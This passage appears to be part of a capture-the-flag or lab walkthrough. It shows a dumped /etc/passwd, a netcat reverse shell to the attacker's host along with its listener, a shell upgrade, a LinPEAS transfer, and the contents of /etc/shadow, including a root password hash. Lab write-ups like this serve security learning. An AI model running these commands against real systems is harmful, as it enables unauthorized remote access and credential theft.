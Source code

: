``` bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin          
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin          
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin 
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin              gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin   
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin    
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin              
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin             
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin                  
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin        
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin          
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin                 systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin                  
dumper:x:1000:1000:dumper:/home/dumper:/bin/bash              
shellinabox:x:106:113:Shell In A Box,,,:/var/lib/shellinabox:/usr/sbin/nologin
```

Anyways lets get a revshell with netcat:

On the target

``` bash
nc -v 192.168.56.100 4444 -e /bin/bash
```

On our host:

``` bash
nc -nlvp 4444
```

Lets get a better shell:

``` bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

I transfered LinPEAS.sh via python server and wget.

We can read shadow files (lol):

``` bash
$ cat /etc/shadow

cat /etc/shadow
root:$6$jzcdBmCLz0zF2.b/$6sok07AjDc3TN3oeI/NqrdZ6NSQly3ADW6lvs3z5q.5GDqsCypL8WtL7ARhzDcdYgukakXWeNbiIP7GyigCse/:19762:0:99999:7:::
daemon:*:18898:0:99999:7:::
bin:*:18898:0:99999:7:::
sys:*:18898:0:99999:7:::
sync:*:18898:0:99999:7:::
games:*:18898:0:99999:7:::
man:*:18898:0:99999:7:::
lp:*:18898:0:99999:7:::
mail:*:18898:0:99999:7:::
news:*:18898:0:99999:7:::
uucp:*:18898:0:99999:7:::
proxy:*:18898:0:99999:7:::
www-data:*:18898:0:99999:7:::
backup:*:18898:0:99999:7:::
list:*:18898:0:99999:7:::
irc:*:18898:0:99999:7:::
gnats:*:18898:0:99999:7:::
nobody:*:18898:0:99999:7:::
_apt:*:18898:0:99999:7:::
systemd-timesync:*:18898:0:99999:7:::
systemd-network:*:18898:0:99999:7:::
```